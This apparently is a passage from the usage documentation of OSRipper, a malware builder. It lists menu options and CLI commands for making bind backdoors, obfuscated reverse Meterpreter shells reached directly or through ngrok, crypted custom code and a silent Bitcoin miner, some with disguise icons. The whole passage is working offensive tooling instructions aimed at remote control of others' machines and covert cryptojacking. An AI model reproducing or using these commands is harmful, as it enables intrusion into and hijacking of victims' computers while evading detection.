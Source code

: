 ```
┌─────────────────────────────────────────────────────────────────────────────┐
│                           🏴‍☠️ OSRipper v0.3.1 Menu 🏴‍☠️                           │
├─────────────────────────────────────────────────────────────────────────────┤
│  1. 🔗 Create Bind Backdoor                                                 │
│  2. 🔐 Create Encrypted TCP Meterpreter (RECOMMENDED)                      │
│  3. 🎭 Crypt Custom Code                                                    │
│  4. ⛏️  Create Silent BTC Miner                                             │
│  5. 🌐 Create Encrypted Meterpreter (Staged)                               │
└─────────────────────────────────────────────────────────────────────────────┘
```

### Step-by-Step Examples

#### Option 1: Bind Backdoor
1. Select option `1`
2. Enter port number (e.g., `4444`)
3. Choose obfuscation (recommended: `y`)
4. Choose compilation (optional: `y`)
5. Binary saved in `dist/` folder

#### Option 2: Reverse Meterpreter
1. Select option `2`
2. Choose ngrok or manual IP
3. Enter IP and port
4. Configure post-generation options
5. Metasploit listener starts automatically

## Command Line Interface

The CLI provides powerful automation capabilities for advanced users.

### Basic Syntax

```bash
python3 cli.py <command> [options]
```

### Available Commands

#### Bind Backdoor
```bash
python3 cli.py bind -p 4444
python3 cli.py bind -p 4444 --obfuscate --compile --icon app.ico
```

#### Reverse Shell
```bash
python3 cli.py reverse -h 192.168.1.100 -p 4444
python3 cli.py reverse --ngrok -p 4444 --obfuscate
```

#### BTC Miner
```bash
python3 cli.py miner --address 1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa
```
